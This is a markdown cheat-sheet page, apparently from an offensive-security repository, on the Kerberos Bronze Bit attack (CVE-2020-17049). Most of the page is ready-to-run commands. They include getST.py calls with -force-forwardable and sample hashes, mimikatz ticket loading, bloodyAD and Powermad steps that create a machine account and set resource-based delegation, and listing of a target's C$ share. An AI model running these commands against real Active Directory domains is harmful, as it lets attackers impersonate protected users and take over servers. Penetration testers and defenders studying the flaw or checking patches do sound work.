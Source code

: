 # Kerberos - Bronze Bit

CVE-2020-17049

> An attacker can impersonate users which are not allowed to be delegated. This includes members of the **Protected Users** group and any other users explicitly configured as **sensitive and cannot be delegated**.
> Patch is out on November 10, 2020, DC are most likely vulnerable until [February 2021](https://support.microsoft.com/en-us/help/4598347/managing-deployment-of-kerberos-s4u-changes-for-cve-2020-17049).

:warning: Patched Error Message : `[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)`

Requirements:

* Service account's password hash
* Service account's with `Constrained Delegation` or `Resource Based Constrained Delegation`
* [Impacket PR #1013](https://github.com/SecureAuthCorp/impacket/pull/1013)

**Attack #1** - Bypass the `Trust this user for delegation to specified services only – Use Kerberos only` protection and impersonate a user who is protected from delegation.

```powershell
# forwardable flag is only protected by the ticket encryption which uses the service account's password 
$ getST.py -spn cifs/Service2.test.local -impersonate Administrator -hashes <LM:NTLM hash> -aesKey <AES hash> test.local/Service1 -force-forwardable -dc-ip <Domain controller> # -> Forwardable

$ getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes aad3b435b51404eeaad3b435b51404ee:7c1673f58e7794c77dead3174b58b68f -aesKey 4ffe0c458ef7196e4991229b0e1c4a11129282afb117b02dc2f38f0312fc84b4 test.local/Service1 -force-forwardable

# Load the ticket
.\mimikatz\mimikatz.exe "kerberos::ptc User2.ccache" exit

# Access "c$"
ls \\service2.test.local\c$
```

**Attack #2** - Write Permissions to one or more objects in the AD

* Windows/Linux:

    ```ps1
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d test.local --host 10.100.10.5 add computer AttackerService 'AttackerServicePassword'
    bloodyAD --host 10.1.0.4 -u user -p 'totoTOTOtoto1234*' -d test.local add rbcd 'Service2$' 'AttackerService$'

    # Execute the attack
    getST.py -spn cifs/Service2.test.local -impersonate User2 -dc-ip 10.100.10.5 -force-forwardable 'test.local/AttackerService$:AttackerServicePassword'
    ```

* Windows only:

    ```powershell
    # Create a new machine account
    Import-Module .\Powermad\powermad.ps1
    New-MachineAccount -MachineAccount AttackerService -Password $(ConvertTo-SecureString 'AttackerServicePassword' -AsPlainText -Force)
    .\mimikatz\mimikatz.exe "kerberos::hash /password:AttackerServicePassword /user:AttackerService /domain:test.local" exit

    # Set PrincipalsAllowedToDelegateToAccount
    Install-WindowsFeature RSAT-AD-PowerShell
    Import-Module ActiveDirectory
    Get-ADComputer AttackerService
    Set-ADComputer Service2 -PrincipalsAllowedToDelegateToAccount AttackerService$
    Get-ADComputer Service2 -Properties PrincipalsAllowedToDelegateToAccount

    # Execute the attack
    python .\impacket\examples\getST.py -spn cifs/Service2.test.local -impersonate User2 -hashes 830f8df592f48bc036ac79a2bb8036c5:830f8df592f48bc036ac79a2bb8036c5 -aesKey 2a62271bdc6226c1106c1ed8dcb554cbf46fb99dda304c472569218c125d9ffc test.local/AttackerService -force-forwardable

    # Load the ticket
    .\mimikatz\mimikatz.exe "kerberos::ptc User2.ccache" exit | Out-Null
    ```

## References

* [CVE-2020-17049: Kerberos Bronze Bit Attack – Practical Exploitation - Jake Karnes - December 8th, 2020](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/)
* [CVE-2020-17049: Kerberos Bronze Bit Attack – Theory - Jake Karnes - December 8th, 2020](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/)
* [Kerberos Bronze Bit Attack (CVE-2020-17049) Scenarios to Potentially Compromise Active Directory](https://www.hub.trimarcsecurity.com/post/leveraging-the-kerberos-bronze-bit-attack-cve-2020-17049-scenarios-to-compromise-active-directory)
